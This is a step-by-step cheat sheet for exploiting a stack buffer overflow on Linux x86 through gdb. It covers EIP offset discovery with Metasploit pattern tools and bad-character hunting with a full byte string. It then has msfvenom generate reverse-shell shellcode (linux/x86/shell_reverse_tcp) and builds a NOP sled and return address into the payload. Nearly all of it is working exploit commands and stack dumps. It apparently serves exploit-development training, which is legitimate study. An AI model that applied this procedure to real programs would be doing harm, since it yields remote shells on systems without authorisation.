 # buffer overflow Linux x86

## Take control EIP

- Get rough estimate offset
```shell
run $(python2 -c 'print("A" * 1000)')
```

- Create pattern
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200
```

- Calculate exact offset
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset by overwriting EIP
```shell
run $(python2 -c 'print("A" * 1000 + "B" * 4)')
```

## Determine shellcode length

- Generate shellcode using `msfvenom`

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux --arch x86 --format c
```

## Identify bad chars

- `CHARS` string below.
```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
```shell
echo $CHARS | sed 's/\\x/ /g' | wc -w
```

- Start inspecting bad characters. The 265 is the length of `$CHARS` at this time.

```shell
run $(python2 -c 'print("A" * (1000 - 265) + "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "B" * 4)')
```

- Use the following command to inspect the stack.

```shell
x/2000xb $esp+500
```

- Iterate the process. Example.

```shell
# remove \x00\x09
run $(python2 -c 'print("A" * (2060 - 254) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a" + "B" * 4)')
```

## Generate shellcode

Consider
- Architecture (e.g. `x86`)
- Platform (e.g. linux)
- Bad characters

Generate shellcode using `msfvenom`.
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux --arch x86 --format c --bad-chars "\x00\x09\x0a\x20"
```

- Update program input. The `\x90` chars are NOP instructions. 90 is the length of the shellcode in this case.

```shell
run $(python2 -c 'print("A" * (2060 - 120 - 90) + "\x90" * 120 + "shellcode" + "B" * 4)')
```

- Example stack is given below.

```shell
...
0xffffd6b4:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6bc:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
...
0xffffd72c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd73c:     0xbf    0x0c    0xf4    0xbb    0x7c    0xd9    0xcb    0xd9
0xffffd744:     0x74    0x24    0xf4    0x5a    0x31    0xc9    0xb1    0x12
...
```

## Identify return address

- Get a memory address where **only** NOPs are located to tell the EIP to jump to it.
- This memory address must **not** contain any of the bad characters we found earlier.
- Pass the address to the input **backwards** in case of little Endian

Finally, update the EIP overwrite with the memory address found above.
